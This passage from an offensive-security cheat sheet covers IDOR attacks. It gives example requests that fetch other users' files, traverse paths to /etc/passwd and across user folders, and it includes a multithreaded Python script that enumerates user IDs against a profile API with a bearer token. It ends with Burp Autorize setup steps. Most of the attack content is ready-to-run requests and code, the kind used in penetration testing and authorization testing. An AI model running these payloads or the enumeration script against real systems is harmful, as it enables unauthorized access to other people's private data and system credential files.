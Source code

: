 ### IDOR in File Operations

```
# Legitimate file access
GET /download?file=user_1337_report.pdf

# IDOR exploitation
GET /download?file=user_1338_report.pdf
GET /download?file=../../../etc/passwd
```

### IDOR via Path Traversal

```
# Original URL
GET /api/documents/users/1337/2023/financial.pdf

# Path traversal IDOR
GET /api/documents/users/1337/../1338/2023/financial.pdf
```

## IDOR Exploitation Tools

### Custom IDOR Scanner (Python Script)

```python
import requests
import concurrent.futures

base_url = "https://example.com/api/users/"
user_id_range = range(1000, 2000)
auth_token = "YOUR_AUTH_TOKEN"
headers = {"Authorization": f"Bearer {auth_token}"}

def test_idor(user_id):
    url = f"{base_url}{user_id}/profile"
    response = requests.get(url, headers=headers)
    if response.status_code == 200:
        print(f"Potential IDOR found: {url}, Status: {response.status_code}")
        print(f"Response: {response.text[:100]}...")
    return user_id, response.status_code

# Execute requests in parallel
with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
    futures = [executor.submit(test_idor, uid) for uid in user_id_range]
    for future in concurrent.futures.as_completed(futures):
        user_id, status_code = future.result()
```

### Burp Suite Automation with Autorize Extension

1. Configure two users: one with higher privileges and one with lower privileges
2. Set up the Autorize extension to use the higher privileged user's session
3. Browse the application with the lower privileged user
4. Autorize will flag requests that succeed with the higher privileged user's session
